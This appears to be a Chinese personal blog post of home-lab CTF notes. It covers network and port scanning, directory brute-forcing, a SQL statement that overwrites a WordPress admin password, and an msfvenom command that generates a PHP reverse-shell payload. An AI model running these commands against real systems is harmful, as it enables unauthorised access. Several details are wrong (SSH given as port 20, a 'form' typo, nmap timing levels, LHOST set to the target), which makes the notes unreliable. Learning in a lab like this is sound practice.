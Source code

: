 ```yaml
---
title: ctf
author: yuri2078
avatar: 'https://cdn.jsdelivr.net/gh/yuri2078/images/img/custom/avatar.jpg'
authorLink: 'https://2078.site'
authorAbout: 一般过路人
authorDesc: 一般过路人
categories: 小记
comments: true
description: '我的爱宛如孤岛之花，不为人知的绽放,不为人知的凋零！'
photos: 'https://cdn.jsdelivr.net/gh/yuri2078/images/headPictures/17.png'
date: 2022-08-04 19:13:56 
tags: ctf
keywords:
---
```


## 我的系统
+ Kali 靶机IP 192.168.18.128
+ Win7 192.168.18.129
+ Wordpress 192.168.18.131

## 常用命令
+ 扫描IP
    + arp-scan -l 
    + netdiscover 
    + fping

+ 端口扫描
    + nmap -sS -sV -p- -v -T4 靶场ip
        + -A 详细扫描目标ip
        + -v 显示详细的扫描过程
        + -sS TCP SYN 扫描
        + -sV 服务版本扫描
        + -p- 扫描全部端口 = -p 1-65535
        + -T4 级别越高速度越快，最高为6级
    + 常见端口
        + 20 SSH服务
        + 80 HTTP服务
        + 3306 MySQL服务
+ 目录扫描
    + dirb http://地址
    + dirbuster 图形界面

+ sql查找
    + select * form 'wp_users'
    + update wp_users set user_pass=md5("123456") where user_login = 'admin'

+ shell
    + 利用msf成成反弹shell msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.18.131 LPORT=4444 -o Desktop/shell.php

+ kali
    + ctrl c 强制结束
    + apt-get update 升级系统包 apt-get update && apt-get upgrade

